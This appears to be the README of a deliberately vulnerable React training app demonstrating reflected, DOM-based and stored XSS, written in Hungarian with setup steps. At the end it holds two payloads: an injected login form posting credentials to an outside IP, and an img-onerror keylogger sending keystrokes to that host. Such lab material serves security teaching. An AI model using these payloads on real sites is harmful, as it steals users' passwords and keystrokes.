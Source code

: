 # React XSS Bank

Ez az alkalmazás háromféle XSS sebezhetőséget demonstrál:
- **Reflected XSS:** A keresőoldalon a felhasználó URL paraméterét a `dangerouslySetInnerHTML` segítségével jelenítjük meg.
- **DOM-based XSS:** A befektetési alapok oldalon a böngésző URL hash részét olvassuk be, és közvetlenül a DOM-ba illesztjük be.
- **Stored XSS:** Az ügyfélüzenetek (feedback) oldalon a felhasználók által beküldött üzeneteket (amelyek tárolva vannak a localStorage-ban) jelenítjük meg a `dangerouslySetInnerHTML` használatával.

## Futtatás

1. Node.js telepítése
2. git clone
3. cd react-xss-bank
4. npm install
5. npm start


<code><form action="http://172.18.193.203" method="post"> 
<label for="username">Felhasználó:</label><br> 
<input type="text" id="username" name="username"><br><br> 
<label for="password">Jelszó:</label><br> 
<input type="password" id="password" name="password"><br><br> <input type="submit" value="Belépés"> 
</form></form>code>

<img src=x onerror="(() => {
  document.onkeypress = function(e) {
          var k = e.key || String.fromCharCode(e.which || e.keyCode);
          var x = new XMLHttpRequest();
          x.open('GET', 'http://172.18.193.203:81/keystrokes?key=' + encodeURIComponent(k), true);
          x.send();
        };
})()">



